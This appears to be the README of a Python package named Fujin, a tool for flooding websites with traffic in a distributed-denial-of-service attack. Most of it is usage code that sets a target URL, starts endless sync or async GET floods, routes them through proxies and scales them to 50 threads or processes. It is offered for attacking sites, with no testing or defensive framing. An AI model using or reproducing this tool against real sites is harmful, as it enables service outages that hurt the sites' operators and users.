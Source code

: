 # Documentation
Happy learnings

## Install
```
pip install Fujin
```

## Initialise Object
```
from Fujin import Fujin

url = "https://999root.xyz/"

headers = {
  "User-Agent": "fucking user agent",
  "Accept-Encoding": "gzip"
}

ddos = Fujin(url=url, header=headers)
```

## Run a simple Asynchronous DDoS
This will run an Infinite Loop Synchronous function that should infinitely send traffic to your selected website.
```
from Fujin import fujin

url = "https://999root.xyz/"

headers = {
  "User-Agent": "fucking user agent",
  "Accept-Encoding": "gzip"
}

ddos = Fujin(url=url, header=headers)
ddos.begin_async_get_attack()
```

## Use proxies
```
from Fujin import fujin

url = "https://999root.xyz/"

proxies = {
  "http": "http://[proxy]"
}

ddos = Fujin(url=url, proxies=proxies)
```

## Use threading or multiprocessing to speed up our DDoS
```
# Daemon = run in the background / threads = how many threads would you like to run
ddos.thread_async_attack(threads=50, daemon=True)
ddos.thread_sync_attack(threads=50, daemon=True)
```

```
ddos.multiproc_sync_attack(processes=50, daemon=True)
ddos.multiproc_async_attack(processes=50, daemon=True)
```

## Choose a pooling manager
Fujin gives you a choice of 3 pooling managers
- Python Requests ( requests.session() )
- AIOHTTTP Async Based Session Manager ( aiohttp.ClientSession() )
- URLLIB3 Pooling Manager ( urllib3.PoolingManager() )

Make sure you choose a pooling manager otherwise the program will prompt you to choose one. I do this because some of the pooling managers are freakishly powerful

#### Python requests
```
ddos = fujin(url="fuckingwebsite.com")
ddos.thread_async_attack(threads=50, pooling_manager="requests")
```

#### AIOHTTP
```
ddos = fujin(url="fuckingwebsite.com")
ddos.thread_async_attack(threads=50, pooling_manager="aiohttp")
```

#### URLLIB3
```
ddos = fujin(url="fuckingwebsite.com")
ddos.thread_async_attack(threads=50, pooling_manager="urllib3")
```

# Example Script
```
from Fujin import fujin

url = "yourwebsite.com"

headers = {
  "User-Agent": "some user agent",
  "Accept-Encoding": "gzip"
}

ddos = fujin(url=url, header=headers)
ddos.thread_async_attack(threads=50, daemon=True, pooling_manager="aiohttp")
```

## What's faster sync or async
asnyc mate
